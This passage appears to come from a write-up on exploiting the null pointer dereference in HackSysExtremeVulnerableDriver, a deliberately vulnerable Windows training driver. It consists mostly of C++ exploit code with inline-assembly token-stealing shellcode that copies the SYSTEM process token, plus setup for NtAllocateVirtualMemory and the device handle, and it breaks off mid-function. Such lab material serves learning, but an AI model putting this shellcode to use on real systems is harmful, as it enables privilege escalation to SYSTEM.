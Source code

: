 We now need to allocate out shellcode there, so NtAllocateVirtualMemory will do it for us

I use code by [ThunderJie](https://github.com/ThunderJie/Windows-Kernel-Exploit/blob/master/HEVD/Null-Pointer-Dereference/Null-Pointer-Dereference/Null-Pointer-Dereference.c) because he has very cool things which I should also use :)

```cpp
#include <stdio.h>
#include <Windows.h>
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
#define Null_Pointer_Dereference 0x22202b

HANDLE hDevice = NULL;

typedef NTSTATUS
(WINAPI* My_NtAllocateVirtualMemory)(
  IN HANDLE ProcessHandle,
  IN OUT PVOID* BaseAddress,
  IN ULONG ZeroBits,
  IN OUT PULONG RegionSize,
  IN ULONG AllocationType,
  IN ULONG Protect
  );

My_NtAllocateVirtualMemory NtAllocateVirtualMemory = NULL;

static VOID ShellCode()
{
  _asm
  {
    //int 3
    pop edi
    pop esi
    pop ebx
    pushad
    mov eax, fs: [124h]   // Find the _KTHREAD structure for the current thread
    mov eax, [eax + 0x50]   // Find the _EPROCESS structure
    mov ecx, eax
    mov edx, 4        // edx = system PID(4)

    // The loop is to get the _EPROCESS of the system
    find_sys_pid :
    mov eax, [eax + 0xb8] // Find the process activity list
    sub eax, 0xb8       // List traversal
    cmp[eax + 0xb4], edx    // Determine whether it is SYSTEM based on PID
    jnz find_sys_pid

    // Replace the Token
    mov edx, [eax + 0xf8]
    mov[ecx + 0xf8], edx
    popad
    //int 3
    ret
  }
}

BOOL init()
{
  // Get HANDLE
  hDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",
    GENERIC_READ | GENERIC_WRITE,
    NULL,
    NULL,
    OPEN_EXISTING,
    NULL,
```